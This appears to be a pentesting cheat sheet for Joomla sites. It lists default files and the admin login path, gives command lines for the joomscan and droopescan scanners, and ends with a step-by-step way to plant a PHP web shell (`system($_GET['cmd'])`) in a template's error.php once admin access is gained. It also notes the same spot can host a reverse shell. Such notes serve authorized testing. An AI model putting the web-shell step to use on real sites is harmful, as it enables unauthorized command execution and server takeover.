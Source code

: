 # Joomla

## Standard pages and folders

#### License files

* `/readme.txt`
* `/administrator/manifests/files/joomla.xml _`
* `/language/en-GB/en-GB.xml`
* `/plugins/system/cache/cache.xml`

#### Login pages

* `/administrator`

#### Resource folder

* `plugins/`
* `plugins/system`
* `templates/`

## Automatic scan tools

### joomscan

A tool written in Perl capable of performing several checks on Joomla configuration and detect vulnerable components. Can be downloaded from [here](https://github.com/OWASP/joomscan)

```
perl joomscan.pl --update        #update vulnerable dependencies database
perl joomscan.pl --url <url>     #perform base checks
perl joomscan.pl -u <url> --ec   #enumerate components
```

### droopescan

Limited support for joomla. Can detect version and interesting urls. Can be downloaded from [here](https://github.com/SamJoan/droopescan)

```
droopescan scan joomla --url <url>
```

## Authenticated RCE

After obtaining access to the administrative panel it is possible to execute commands on the underlying machine by editing a template page.

1. Select a template to edit
2. Append `system($_GET['cmd']);` in the error.php page and save
3. Navigate to `<host>/templates/<template>/error.php?cmd=<cmd>`

It is also possible to append the payload to launch a reverse shell and trigger it by visiting the modified page
